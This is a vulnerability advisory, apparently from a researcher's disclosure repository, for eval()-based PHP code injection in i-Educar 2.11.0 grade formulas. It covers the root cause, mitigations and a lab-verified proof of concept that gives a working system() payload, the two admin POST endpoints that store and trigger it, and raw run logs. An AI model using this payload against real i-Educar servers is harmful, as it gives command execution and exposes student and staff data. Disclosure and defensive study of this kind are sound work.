

# Code injection (eval) in `FormulaMedia_Model_Formula::_exec()`

- **Product:** i-Educar 2.11.0 (latest release, tag `2.11.0`) (portabilis/i-educar)
- **Type / CWE:** CWE-94 Improper Control of Generation of Code ('Code Injection') — https://cwe.mitre.org/data/definitions/94.html
- **Severity:** `CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H` = **9.1 Critical** (estimated from the vector, not an upstream score)
- **Affected version:** 2.11.0 (latest release, tag `2.11.0`)
- **Endpoint(s):** `POST /module/FormulaMedia/edit` (stores the formula) then `POST /module/Avaliacao/diarioApi?resource=nota&oper=post` (triggers evaluation) — parameter(s): `formulaMedia`, `att_value`, `matricula_id`, `componente_curricular_id`, `etapa`
- **Authentication:** profile allowed to edit grade formulas and save grades (verified with `admin`)
- **Status:** VERIFIED against a local i-Educar 2.11.0 lab (2026-09-10)

## Summary

Grade formulas are stored as PHP expression fragments and later executed with
`eval()`. The admin form that saves a formula does not validate it
(`Core_Controller_Page_EditController::_save()` calls the data mapper directly,
and `CoreExt_DataMapper::save()` performs no validation), so a user with access
to formula editing can store arbitrary PHP in `modules.formula_media`. The next
grade save at the grade-book API recomputes the average through
`Formula::execFormulaMedia()`, which concatenates the stored string into
`eval('?><?php $result = ' . $code . '; ?>');`. The payload runs inside the
`ieducar-fpm` container with the application's privileges.

## Root cause

`ieducar/modules/FormulaMedia/Model/Formula.php:122`

```php
protected function _exec($code)
{
    $result = null;

    eval('?><?php $result = ' . $code . '; ?>');

    return $result;
}
```

`ieducar/modules/FormulaMedia/Model/Formula.php:212`:

```php
public function execFormulaMedia(array $values = [])
{
    $formula = $this->replaceTokens($this->formulaMedia, $values);

    return $this->_exec($formula);
}
```

The trigger, `ieducar/modules/Avaliacao/Service/Boletim.php:2562`:

```php
protected function _calculaMedia(array $values)
{
    if (isset($values['Rc']) && $this->hasRegraAvaliacaoFormulaRecuperacao()) {
        $media = $this->getRegraAvaliacaoFormulaRecuperacao()->execFormulaMedia($values);
    } else {
        $media = $this->getRegraAvaliacaoFormulaMedia()->execFormulaMedia($values);
    }
}
```

`replaceTokens()`/`replaceAliasTokens()` only substitute known tokens and turn
`x` into `*`; they never strip `;`, parentheses or quotes, so
`1;system('id > /tmp/poc07marker');0` stays valid PHP.

Why the form stores it: `ieducar/lib/Core/Controller/Page/EditController.php:384`
`_save()` builds the entity from `$_POST` and calls
`$this->getDataMapper()->save($this->getEntity())`; `CoreExt_DataMapper::save()`
(`ieducar/lib/CoreExt/DataMapper.php:577`) inserts/updates without invoking the
`FormulaMedia_Validate_Formula` validator. That validator also `eval()`s the
formula (`ieducar/modules/FormulaMedia/Validate/Formula.php:47`), but it rejects
unknown space-separated tokens first, so the missing validation is what makes
the clean payload reach the database.

## Proof of concept

1. Log in as an administrator.
2. Store the payload through the real form:
   `POST /module/FormulaMedia/edit?id=3` with
   `formulaMedia=1;system('id > /tmp/poc07marker');0`
   (`tipoacao=Editar`, `nome`, `tipoFormula=1`, `instituicao=1`).
3. Save a grade so the average is recalculated:
   `POST /module/Avaliacao/diarioApi?resource=nota&oper=post&...&matricula_id=3&componente_curricular_id=3&etapa=1`
   with `att_value=4`.
4. Read the marker file from the `ieducar-fpm` container:
   `docker compose exec fpm cat /tmp/poc07marker` →
   `uid=1000(ieducar) gid=1000(ieducar) groups=1000(ieducar),1000(ieducar)`.
5. The PoC restores the original formula and removes the seeded curriculum
   links and grade rows.

```bash
python3 i-explorar.py            # pick [07]
# or standalone:
python3 vulns/07-formula-media-eval-code-injection/poc.py --target http://127.0.0.1:8080
```

Note on the payload: `replaceAliasTokens()` replaces every literal `x` in the
formula with `*` (multiplication alias), so the marker path must not contain
the letter `x`. The PoC uses `/tmp/poc07marker`.

## Evidence

Raw output of the PoC run against the 2.11.0 release (`evidence/run-20260911T001722Z.log`), pasted
verbatim:

```
# i-explorar raw evidence
# started_at: 2026-09-11T00:17:22.453604+00:00
# host: -03
# target: http://127.0.0.1:8080
# original formula id=3: 'Se / Et'

### POST /module/FormulaMedia/edit (stores the malicious formula)
HTTP 302
# formula now stored: "1;system('id > /tmp/poc07marker');0"
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T postgres psql -U ieducar -d ieducar -tAc INSERT INTO modules.componente_curricular_ano_escolar (componente_curricular_id, ano_escolar_id, carga_horaria, anos_letivos) VALUES (3, 6, 40, '{2026}') ON CONFLICT DO NOTHING; INSERT INTO modules.componente_curricular_turma (componente_curricular_id, ano_escolar_id, escola_id, turma_id, carga_horaria) VALUES (3, 6, 2, 3, 40) ON CONFLICT DO NOTHING;

--- psql output ---
INSERT 0 1
INSERT 0 1
--- end psql output ---

### POST grade (triggers execFormulaMedia -> eval)
HTTP 200

--- body ---
{"should_show_recuperacao_especifica":false,"componente_curricular_id":"3","matricula_id":"3","situacao":"Cursando","nota_necessaria_exame":"+10","media":1,"media_arredondada":"1","oper":"post","resource":"nota","msgs":[{"msg":"Nota matr\u00edcula 3 alterada com sucesso.","type":"success"}],"any_error_msg":false}
--- end body ---
$ docker compose exec -T fpm cat /tmp/poc07marker

--- marker output ---
uid=1000(ieducar) gid=1000(ieducar) groups=1000(ieducar),1000(ieducar)
--- end marker output ---

### restore original formula ('Se / Et')
HTTP 302
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T postgres psql -U ieducar -d ieducar -tAc DELETE FROM modules.componente_curricular_turma WHERE componente_curricular_id=3 AND turma_id=3; DELETE FROM modules.componente_curricular_ano_escolar WHERE componente_curricular_id=3 AND ano_escolar_id=6; DELETE FROM modules.nota_componente_curricular WHERE nota_aluno_id IN (SELECT id FROM modules.nota_aluno WHERE matricula_id=3); DELETE FROM modules.nota_componente_curricular_media WHERE nota_aluno_id IN (SELECT id FROM modules.nota_aluno WHERE matricula_id=3);

--- psql output ---
DELETE 1
DELETE 1
DELETE 1
DELETE 1
--- end psql output ---
# finished_at: 2026-09-11T00:17:24.239056+00:00
```

## Screenshots



Caption: console capture of the PoC run — formula stored via the admin form,
grade save triggering the `eval()`, and the `uid=1000(ieducar)` marker read
back from the `ieducar-fpm` container.

## Impact

Any user who can edit formulas and save grades — typically an administrator or
school manager — obtains arbitrary PHP/shell command execution as the web user
inside the application container. From there: read `.env` and database
credentials, exfiltrate student and staff data, modify grades and records,
install persistence, and pivot to the Postgres/Redis containers on the compose
network. Because formulas are configuration data, the payload also survives
restarts until the formula is changed.

## Timeline

- 2026-09-10: local reproduction against the i-explorar 2.11.0 lab (this advisory)
- not yet reported to the maintainer — no remote or external contact was made
  from this repository

## Mitigation

- Do not `eval()` formula text. Parse the expression and evaluate it with a
  dedicated arithmetic evaluator, or restrict formulas to an AST of allowed
  numeric tokens and operators.
- If `eval()` is kept short-term, wrap it in a full allowlist: reject any
  character outside `[0-9 ().,+*/?:<>EeRCSPMNx-]` and any identifier other than
  the documented tokens, before the string reaches `_exec()`.
- Validate on save (`FormulaMedia_Validate_Formula`) in the data mapper or the
  controller, not only in the optional validator collection.
- Run the web process with the least privileges and disable dangerous PHP
  functions (`system`, `exec`, `shell_exec`, `proc_open`, ...) for the FPM pool.

## References

- Upstream repository: https://github.com/portabilis/i-educar
- CWE-94: https://cwe.mitre.org/data/definitions/94.html
- This advisory (canonical URL): https://github.com/pollotherunner/i-explorar/blob/main/vulns/07-formula-media-eval-code-injection/README.md
